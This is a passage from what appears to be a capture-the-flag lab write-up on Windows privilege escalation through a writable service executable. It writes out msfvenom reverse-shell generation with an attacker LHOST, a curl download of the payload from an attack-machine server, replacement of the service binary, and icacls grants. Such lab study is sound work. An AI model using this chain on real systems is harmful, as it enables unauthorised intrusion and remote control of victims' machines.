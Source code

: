 3. `icacls <TARGET DIRECTORY>` from the compromised Windows machine to display the security permissions and ACLs (Access Control Lists) for our target directory, which is one of the directories where most of service executables are installed under by default (`C:\Program Files` or `C:\Program Files (x86)`)
```PowerShell
C:\Users\thm-unpriv>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

4. `msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <OUTPUT FILE>` from our attack machine to generate a custom reverse shell payload executable (.exe)
```Bash
root@ip-10-10-6-207:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.6.207 LPORT=9999 -f exe-service -o ReverseShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: ReverseShell.exe
```

5. `python3 -m <MODULE>` from our attack machine to start a simple HTTP server on our local machine using Python 3's built in HTTP server module (`http.server`)
```Bash
root@ip-10-10-6-207:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

6. `curl <ATTACK MACHINE HTTP SERVER>:<PAYLOAD FILE PATH> -O <OUTPUT FILE>` from the compromised Windows machine to make an HTTP request to our previously set up Python server on our attack machine to download our previously generated reverse shell payload executable onto the compromised machine
```PowerShell
C:\Users\thm-unpriv>curl http://10.10.6.207:8000/ReverseShell.exe -O ReverseShell.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 48640  100 48640    0     0  48640      0  0:00:01 --:--:--  0:00:01 1484k
curl: (6) Could not resolve host: ReverseShell.exe
```

7. `move <PAYLOAD> <BINARY_PATH_NAME EXECUTABLE>` from the compromised Windows machine to replace our target service's `BIANRY_PATH_NAME`'s executable file with our payload
```PowerShell
C:\Users\thm-unpriv>move C:\Users\thm-unpriv\ReverseShell.exe C:\MyPrograms\Disk.exe
        1 file(s) moved.
```

8. `icacls <BINARY_PATH_NAME EXECUTABLE> /grant Everyone:F` from the compromised Windows machine to grant all users in the "Everyone" group full access (read, write, and execute) permissions to our payload
```PowerShell
C:\Users\thm-unpriv>icacls C:\MyPrograms\Disk.exe /grant Everyone:F
processed file: C:\MyPrograms\Disk.exe
Successfully processed 1 files; Failed processing 0 files
```
